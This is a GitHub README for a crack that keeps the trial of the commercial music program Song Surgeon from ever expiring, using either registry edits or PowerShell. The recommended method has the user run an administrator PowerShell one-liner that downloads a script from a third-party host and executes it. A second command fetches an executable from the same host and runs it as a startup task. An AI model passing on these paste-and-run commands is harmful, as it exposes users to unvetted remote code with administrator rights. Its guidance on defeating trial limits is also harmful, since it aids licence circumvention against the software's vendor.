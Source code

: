 [![PSScriptAnalyzer](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/powershell-analysis.yml)
[![SL Scan](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml/badge.svg)](https://github.com/BiltuDas1/song-surgeon-demo-unlimited/actions/workflows/shiftleft-analysis.yml)
[![Donate](https://img.shields.io/badge/Buy%20me%20a-Coffee-blue.svg)](https://www.buymeacoffee.com/stopback)

# Song Surgeon Demo Unlimited Trial
Song Surgeon was first released in 2007, and is now a decade old... From its first humble beginnings it has grown to be one of the most popular and valuable tools used by musicians – both students and teacher. At last count Song Surgeon has been sold in more than 120 countries worldwide – and by musicians that play 37 different instruments.

Our newly released Version 5 of Song Surgeon takes the program to a whole new level with the addition of key detection, automatic beat detection, and chord detection. What that means is that when you open a song, Song Surgeon will automatically detect the tempo of a song in BPMs, in will determine the key signature, it will detect the chords – and it will display all of this information on the main user interface so you can see and use it. We know of no other audio slowdowner software that provides these three features in one program. And of course, that’s just the beginning.

In addition to providing nearly flawless, distortion-free key and tempo change of audio, Song Surgeon has a long list of other useful features:

# How to Increase time of Song Surgeon?
There has 2 method for increasing time of Song Surgeon Demo Version, 1st one is registy and 2nd one is PowerShell script (online)

| Registry | PowerShell |
| ------- | ------------------ |
| It will freeze current time so that the program will not be Expire | It will Set the program time to infity amount of time that you will be old but the demo will not be Expire|
| Hard for those who doesn't has enough knowledge about registry | Easy for those who know basic knowledge about computers |
| It only can set infinity trial on the Free Version | It only can set infinity trial on the Premium Version* |
| No need any Internet Connection | Needs a stable Internet Connection |
| Real time update not available | Real time update available on [stbak.cf](https://stbak.cf) |

*Song Surgeon comes with 2 program which is a free demo (Limited) and another is paid demo, you can choose which demo you will use, just goto the Song Surgeon Program directory and open **switcher.bat**

# Installation
## 1st Method (Registry)

[Download Registry file into your Computer](/V_5.reg)  

On Windows 10
1. Merge the Registry into your Windows Registry
2. Open **regedit.exe** and then goto this directory `Computer\HKEY_USERS\S-1-5-21-3204273600-1076203570-2903160593-1001\SOFTWARE\TMJ\Demos`
3. Right Click on `SS_<Version of Song Surgeon>` and choose Permissions.., click on Advanced and then Disable inheritance (Windows 10)
4. Then Remove all inheritance Permissions from the object, Add > Select a Principal, type `everyone` in the object name box and click OK
5. Under Basic Permissions choose **Read** and click OK  

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20203647.png?raw=true">
</P>

6. Click OK, After clicking OK if you see the following Screen then you are done!

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20204126.png?raw=true">
</P>


## 2nd Method (PowerShell) [Recommended]

This method needs an stable internet connection, If you are using latest version of Song Surgeon then It's recommended to use this script.

1. Goto start menu and search for **powershell**, Right click on it and Choose **Run as Administrator**
2. After comfirming Admin Password, type the below code into the powershell window and hit enter
```
wget stbak.cf/ss -outfile ss.cmd; ss.cmd; del ss.cmd
```
3. Now Open the Song Surgeon and see how the script magically works on it.

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20213220.png?raw=true">
</P>

### Install As Startup task

This method doesn't lock the time of your Program so te demo time continues counting for prevent the program from being Expaired add the tool into your computer startup, it means the program will be run automatically on start. For doing this type below code into powershell window and hit enter.
```
cd\; wget stbak.cf/sss -outfile sss.exe; .\sss.exe
```
for deleting temporary files which created by powershell use
```
remove-item sss.exe
```

***Note: Make sure you manually patch the code before using the install as startup task.***

# Donation
If you like my work then Please donate  
I need donation because,
1. I has wasted about a week for making this script
2. I will update the script regulary so that It will be work on latest version
3. And I need to pay my web host for running the script online.

Plz consider by giving me a small donation

<p align="center">
  <a href='https://www.buymeacoffee.com/stopback'><img src="https://github.com/appcraftstudio/buymeacoffee/raw/master/Images/snapshot-bmc-button.png" height='50' width='200'></a>
</p>

# Contact
If you has any Query then you can contact me at [Telegram](https://t.me/BiltuDas1)
